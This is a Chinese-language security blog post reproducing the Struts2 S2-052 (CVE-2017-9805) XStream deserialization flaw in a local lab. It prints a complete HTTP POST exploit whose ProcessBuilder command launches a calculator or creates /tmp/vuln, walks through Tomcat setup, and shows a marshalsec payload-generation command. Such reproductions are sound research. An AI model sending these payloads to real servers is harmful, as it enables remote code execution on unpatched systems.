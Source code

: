 ```yaml
---
title: struts2-052漏洞
copyright: true
permalink: 1
top: 0
date: 2017-09-06 16:26:05
tags:
- struts2
categories: web安全
password:
---
```

<blockquote class="blockquote-center">From small beginnings comes great things
伟大始于渺小</blockquote>
　　今年struts2疯了，被爆出了很多高危漏洞，之前我研究过s_045、s_046漏洞，近期又出现了s_052漏洞，同样是命令执行，但这次危害稍微小一些，因为利用环境比较苛刻，需要使用XStream插件。
<!-- more -->
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### s2-052漏洞介绍
s2-052漏洞是当用户使用带有XStream程序的Struts-REST插件来处理XML-payloads时，会遭到远程代码执行攻击。
漏洞编号：CVE-2017-9805（S2-052）
漏洞影响：Struts2.5 – Struts2.5.12版本。

### s2-052 poc
```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 2365
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

注意：执行命令的地方在于command内，这里是针对mac下的弹出计算器，如果是windows可改成calc.exe
```bash
<command>
<string>
/Applications/Calculator.app/Contents/MacOS/Calculator
</string>
</command>
```

### s2-052漏洞复现
#### mac install tomcat
在安装tomcat前，先检测一下mac上有没有安装java，可以运行java -version。
```bash
java version "1.8.0_111"
Java(TM) SE Runtime Environment (build 1.8.0_111-b14)
Java HotSpot(TM) 64-Bit Server VM (build 25.111-b14, mixed mode)
```
前往tomcat官网下载：http://tomcat.apache.org/download-80.cgi?from_33lc.com 选择下载Core下的tar.gz包到本地，然后解压。
将解压后到文件夹移动到/Library目录下,并命名为Tomcat；然后设置权限：
```bash
sudo chmod 755 /Library/Tomcat/bin/*.sh
```
进入/Library/Tomcat/bin/目录，运行启动tomcat
```bash
sudo sh startup.sh
```
访问：http://127.0.0.1:8080
注意：若要修改tomcat端口，可打开/Library/Tomcat/conf/server.xml文件，修改8080端口。

编写启动关闭tomcat脚本：
将以下内容写入tomcat文件中（自己创建）
```bash
#!/bin/bash
case $1 in
start)
sh /Library/Tomcat/bin/startup.sh
;;
stop)
sh /Library/Tomcat/bin/shutdown.sh
;;
restart)
sh /Library/Tomcat/bin/shutdown.sh
sh /Library/Tomcat/bin/startup.sh
;;
*)
echo “Usage: start|stop|restart”
;;
esac
exit 0
```
赋予文件权限：
```bash
chmod 777 tomcat
```
添加环境变量：
```bash
export PATH="$PATH:/Library/Tomcat/bin"
```
然后运行启动关闭tomcat：
```bash
sudo tomcat start
sudo tomcat stop
```
注：linux、windows安装tomcat方法都与之类似，这里不再演示。

#### 下载部署存在漏洞的struts2版本
从struts2的官网下载最后受影响的版本[struts-2.5.12](http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip)解压后，将apps目录下的struts2-rest-showcase.war文件放到webapps目录下（/Library/Tomcat/webapps）重启tomcat后访问：http://127.0.0.1:8080/struts2-rest-showcase/

![](/upload_image/20170906/1.png)
由于burpsuite监控的端口也是8080，所以我将tomcat的端口改成8081了。

#### 构造post包
可以直接使用上面的poc发包，也可以自己抓取数据包重放，自己抓取的方式是点击页面上的编辑，然后点击submit提交，抓取post包，再修改post的body字段为此漏洞的poc。

#### 尝试不同的poc
网上使用最多的poc是弹出一个计算器，然而我在mac上测试发现弹出计算器失败了，因此换了一个写文件的poc，发现测试成功。

写文件poc：（会在/tmp/下生成vuln文件）
```bash
<command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command>
```
弹计算器poc
```bash
Mac:
<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>

windows:
<command><string>clac.exe</string></command>
```

### poc生成
```bash
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.XStream ImageIO calc.exe > poc.txt
```
marshalsec-0.0.1-SNAPSHOT-all.jar网上可以下载，这里不给出地址了，自行搜索。


### 参考文章
http://www.freebuf.com/vuls/146718.html
https://www.t00ls.net/thread-41942-1-1.html
http://www.imooc.com/article/6453
https://github.com/jas502n/St2-052/blob/master/README.md

### 传送门
[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)



